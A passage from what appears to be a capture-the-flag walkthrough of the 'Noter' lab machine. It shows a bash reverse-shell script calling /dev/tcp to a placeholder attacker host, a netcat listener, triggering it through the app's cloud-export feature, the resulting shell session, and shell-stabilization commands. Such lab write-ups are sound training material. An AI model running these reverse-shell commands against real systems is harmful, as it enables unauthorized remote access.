 reverse.sh:

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Also, on our attacking machine we set up a listener:

```zsh
nc -lnvp <PORT>
```

When we're ready, we use `Export directly from cloud` feature with the link to our web server with test.md file. After a few seconds, we will get a reverse shell!

```zsh
$ listener
[*] Starting listener on port 7101
[*] https://www.revshells.com/
listening on [any] 7101 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.160] 51202
bash: cannot set terminal process group (1263): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$ cd ~
svc@noter:~$ cat user.txt
```

# root.txt

# Stabilize shell

Before we start exploring we have to stabilize our shell. We can do that by searching for ssh keys. But if we check there is no ssh keys presents for svc user, so we have to stabilize our reverse shell:

```bash
svc@noter:~/app/web$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
svc@noter:~/app/web$ export TERM=xterm-256color
export TERM=xterm-256color 
svc@noter:~/app/web$ alias ll='ls -lsaht --color=auto'                                                                        
alias ll='ls -lsaht --color=auto'                                                                                             
svc@noter:~/app/web$ ^Z                                                                                                       
zsh: suspended  /home/kali/tools/aliases/listener.sh                                                        
 
┌──(kali㉿workstation)-[~]
└─$ stty raw -echo ; fg ; reset                     148 ⨯ 1 ⚙
[1]  + continued  /home/kali/tools/aliases/listener.sh

svc@noter:~$
```
